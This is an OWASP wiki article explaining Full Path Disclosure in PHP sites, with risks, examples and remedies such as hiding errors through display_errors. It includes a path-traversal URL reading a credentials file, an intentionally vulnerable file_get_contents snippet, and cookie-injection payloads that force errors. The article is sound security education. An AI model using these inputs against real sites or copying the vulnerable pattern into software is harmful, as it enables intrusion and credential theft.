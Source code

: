 ```yaml
---

layout: col-sidebar
title: Full Path Disclosure
author: 
contributors: 
permalink: /attacks/Full_Path_Disclosure
tags: attack, Full Path Disclosure
auto-migrated: 1

---
```


## Description

Full Path Disclosure (FPD) vulnerabilities enable the attacker to see
the path to the webroot/file. e.g.: /home/omg/htdocs/file/. Certain
vulnerabilities, such as using the load_file() (within a [SQL
Injection](SQL_Injection "wikilink")) query to view the page source,
require the attacker to have the full path to the file they wish to
view.

## Risk Factors

The risks regarding FPD may produce various outcomes. For example, if
the webroot is getting leaked, attackers may abuse the knowledge and use
it in combination with file inclusion vulnerabilites (see [PHP File
Inclusion](https://www.owasp.org/index.php/PHP_File_Inclusion)) to steal
configuration files regarding the web application or the rest of the
operating system.

    Warning: session_start() [function.session-start]: The session id contains illegal characters,
    valid characters are a-z, A-Z, 0-9 and '-,' in /home/example/public_html/includes/functions.php on line 2

In combination with, say, unproteced use of the PHP function
file_get_contents, the attacker gets an opportunity to steal
configuration files.

**The sourcecode of index.php:**

    <?php
       echo file_get_contents(getcwd().$_GET['page']);
    ?>

An attacker crafts a URL like so:
\[<http://site.com/index.php?page=>../../../../../../../home/example/public_html/includes/config.php
<http://site.com/index.php?page=>../../../../../../../home/example/public_html/includes/config.php\]
with the knowledge of the FPD in combination with [Relative Path
Traversal](https://www.owasp.org/index.php/Relative_Path_Traversal).

**The leaked sourcecode of config.php:**

    <?php
       //Hidden configuration file containing database credentials.
       $hostname = 'localhost';
       $username = 'root';
       $password = 'owasp_fpd';
       $database = 'example_site';
       $connector = mysql_connect($hostname, $username, $password);
       mysql_select_db($database, $connector);
    ?>

Disregarding the above sample, FPD can also be used to reveal the
underlaying operation system by observing the file paths. Windows for
instance always start with a drive-letter, e.g; C:\\, while Unix based
operating system tend to start with a single front slash.

**\*NIX:**

    Warning: session_start() [function.session-start]: The session id contains illegal characters,
    valid characters are a-z, A-Z, 0-9 and '-,' in /home/alice/public_html/includes/functions.php on line 2

**Microsoft Windows:**

    Warning: session_start() [function.session-start]: The session id contains illegal characters,
    valid characters are a-z, A-Z, 0-9 and '-,' in C:\Users\bob\public_html\includes\functions.php on line 2

The FPD may reveal a lot more than people normally might suspect. The
two examples above reveal usernames on the operating systems as well;
"**alice**" and "**bob**". Usernames are of course important pieces of
credentials. Attackers can use those in many different ways, ranging all
from bruteforcing over various protocols (SSH, Telnet, RDP, FTP...) to
launching exploits requiring working usernames.

## Examples

**Empty Array**

If we have a site that uses a method of requesting a page like this:

    http://site.com/index.php?page=about

We can use a method of opening and closing braces that causes the page
to output an error. This method would look like this:

    http://site.com/index.php?page[]=about

This renders the page defunct thus spitting out an error:

    Warning: opendir(Array): failed to open dir: No such file or directory in /home/omg/htdocs/index.php on line 84
    Warning: pg_num_rows(): supplied argument ... in /usr/home/example/html/pie/index.php on line 131

**Null Session Cookie**

Another popular and very reliable method of producing errors containing
a FPD is to give the page a nulled session using JavaScript Injections.
A simple injection using this method would look something like so:

    javascript:void(document.cookie="PHPSESSID=");

By simply setting the PHPSESSID cookie to nothing (null) we get an
error.

    Warning: session_start() [function.session-start]: The session id contains illegal characters,
    valid characters are a-z, A-Z, 0-9 and '-,' in /home/example/public_html/includes/functions.php on line 2

This vulnerability is prevented simply by turning error reporting off so
your code does not spit out errors.

    error_reporting(0);

Errors can contain useful information for site owner so instead of
disabling the error reporting at all, it is possible to only hide errors
from output by
[display_errors](http://www.php.net/errorfunc.configuration#ini.display-errors).

**Invalid Session Cookie**

As a complement to the Null Session Cookie, a very long session could
also produce an error containing FPD. This could also be accomplished
using a JavaScript injection like so:

    javascript:void(document.cookie='PHPSESSID=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');

By simply setting the PHPSESSID cookie to 129 bytes or more, PHP may
spit out a warning.

Another approach would be to to set the PHPSESSID cookie data to one of
the reserved bytes.

    javascript:void(document.cookie='PHPSESSID=.');

Both variants result in the following.

    Warning: session_start(): The session id is too long or contains illegal characters,
    valid characters are a-z, A-Z, 0-9 and '-,' in /home/example/public_html/includes/functions.php on line 2

The same remedy as for Null Session Cookie may be applied here. Errors
may be hidden from the output by
[display_errors](http://www.php.net/errorfunc.configuration#ini.display-errors).

**Direct Access to files that requires preloaded library files**

Web application developers sometimes fail to add safe checks in files
that requires preloaded library/function files. This is prone to reveal
possible sensitive information when those applications' URLs are
directly requested. Sometimes, it's a clue to Local File Inclusion
vulnerability.

Concerning with Mambo CMS, if we access to a direct url,
<http://site.com/mambo/mambots/editors/mostlyce/jscripts/tiny_mce/plugins/spellchecker/classes/PSpellShell.php>,
then we gets

    <br />
    <b>Fatal error</b>:  Class 'SpellChecker' not found in <b>/home/victim/public_html/mambo/mambots/editors/mostlyce/jscripts/tiny_mce/plugins/spellchecker/classes/PSpellShell.php</b> on line <b>9</b><br />

## Tool

The above three checks can be done with the aid of
[inspathx](https://code.google.com/p/inspathx/) tool.

## Related [Threat Agents](Threat_Agents "wikilink")

  - [internal software
    developer](internal_software_developer "wikilink")

## Related [Attacks](Attacks "wikilink")

  - [SQL Injection](SQL_Injection "wikilink")
  - [Relative Path Traversal](Relative_Path_Traversal "wikilink")

## Related [Vulnerabilities](https://owasp.org/www-community/vulnerabilities/)

  - None

## Related [Controls](https://owasp.org/www-community/controls/)

  - [Error Handling](Error_Handling "wikilink")
  - [Bounds Checking](Bounds_Checking "wikilink")
  - [Safe Libraries](Safe_Libraries "wikilink")
  - [Static Code Analysis](Static_Code_Analysis "wikilink")
  - [Executable space
    protection](Executable_space_protection "wikilink")
  - [Address space layout randomization
    (ASLR)](Address_space_layout_randomization_\(ASLR\) "wikilink")
  - [Stack-smashing Protection
    (SSP)](Stack-smashing_Protection_\(SSP\) "wikilink")

## References

  - <http://www.acunetix.com/vulnerabilities/Full-path-disclosure.htm>
  - [Articled summarised from Full Path Disclosure article by haZed on
    EnigmaGroup.org.](http://www.enigmagroup.org/)
  - [Path Disclosure Vulnerability - Is it
    serious?](http://yehg.net/lab/pr0js/view.php/path_disclosure_vulnerability.txt)
  - [inspathx - Internal Path Disclosure
    Finder](http://yehg.net/lab/pr0js/files.php/inspath.zip)

__NOTOC__

[Category:OWASP ASDR Project](Category:OWASP_ASDR_Project "wikilink")
[Category:Injection](Category:Injection "wikilink")
[Category:Attack](Category:Attack "wikilink")
